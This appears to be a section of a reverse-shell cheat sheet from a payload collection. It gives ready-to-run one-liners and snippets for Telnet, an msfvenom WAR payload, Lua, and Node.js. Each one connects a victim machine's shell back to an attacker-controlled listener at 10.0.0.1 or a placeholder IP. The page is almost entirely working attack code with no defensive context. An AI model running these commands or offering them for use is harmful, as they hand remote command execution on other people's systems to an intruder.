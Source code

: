 ### Telnet
```bash
In Attacker machine start two listeners:
nc -lvp 8080
nc -lvp 8081

In Victime machine run below command:
telnet <Your_IP> 8080 | /bin/sh | telnet <Your_IP> 8081
```

### War

```java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```


### Lua

Linux only

```powershell
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

Windows and Linux

```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### NodeJS

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();


or

require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')

or

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
```
